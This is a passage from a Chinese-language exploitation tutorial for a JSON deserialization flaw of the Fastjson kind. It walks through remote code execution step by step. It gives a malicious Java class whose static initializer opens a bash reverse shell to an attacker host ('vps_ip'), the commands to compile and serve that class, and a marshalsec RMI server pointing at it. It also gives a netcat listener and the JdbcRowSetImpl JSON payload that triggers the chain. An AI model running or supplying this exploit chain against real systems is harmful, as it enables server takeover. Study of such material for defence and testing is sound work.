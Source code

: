 其中url字段的值为想要读取的路径；bytes数组的值为路径名称的ASCII码  
  
5、**RCE过程**  
  
1）准备恶意的java文件TouchFile.java  
```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/vps_ip/2333 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```  
  
2）将java文件编译为class  
```
javac TouchFile.java
```  
  
3）在class文件所在目录，开启http服务  
```
python -m SimpleHTTPServer 80
```  
  
4）开启RMI服务  
  
使用工具：marshalsec  
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://vps_ip/#TouchFile 9999
```  
  
其中http://vps_ip/#TouchFile 是刚刚开启的http服务，下载恶意类TouchFile  
  
9999是开启RMI服务的端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibpjMqOVNILc9A6Apcc9qJUmQZf9qaJZp2tJiasRys5JQGrHMhdGGA2ia92caBg5hhWcTz8o8usHjDw/640?wx_fmt=png&from=appmsg "")  
  
5）开启nc监听  
```
nc -lvp 2333
```  
  
6）访问漏洞点，提交payload  
```
{
    "a":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://vps_ip:9999/TouchFile",
        "autoCommit":true
    }
}
```  
  